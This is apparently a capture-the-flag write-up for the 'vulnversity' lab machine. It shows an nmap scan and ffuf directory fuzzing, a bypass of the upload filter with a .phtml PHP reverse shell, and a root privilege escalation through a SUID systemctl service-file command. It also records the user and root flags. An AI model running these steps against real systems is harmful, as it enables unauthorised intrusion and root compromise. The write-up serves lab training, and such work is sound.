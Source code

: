 # 22 SEP 2021 | vulnversity

export ip = 10.10.85.214

# SCANNING :

nmap -sV -v $IP 

```bash

PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp         vsftpd 3.0.3
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
1521/tcp filtered oracle
3128/tcp open     http-proxy  Squid http proxy 3.5.12
3333/tcp open     http        Apache httpd 2.4.18 ((Ubuntu))

```



# ENUMERATION :

http://10.10.85.214:3333/

ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://10.10.85.214:3333/FUZZ 

```
internal                [Status: 301, Size: 322, Words: 20, Lines: 10]
```
it is an upload page so let's try uplaod a php shell ... it gives this extenstion is not allowed 

##  so i make a list of possible php by pass , pass it to intruder , url encoded is off , let's go 

.phtml returns success !




# EXPLOITATION :

- upload  a php reverse shell with your ip and with .phtml extenstion

ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://10.10.85.214:3333/FUZZ -recursion


```bash

/internal/uploads                 [Status: 301, Size: 330, Words: 20, Lines: 10]

```
now we can set a listener and get a shell 

> user flag : 8bd7992fbe8a6ad22a63361004cfcedb

# PRIVILEGE ESCALATION 


find / -user root -perm -4000 -exec ls -ldb {} \;

or 

find / -perm -4000 2>/dev/null

```bash

/bin/systemctl

```

```
MF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $MF
/bin/systemctl link $MF
/bin/systemctl enable --now $MF
```
> root flag : a58ff8579f0a9270368d33a9966c7fd5
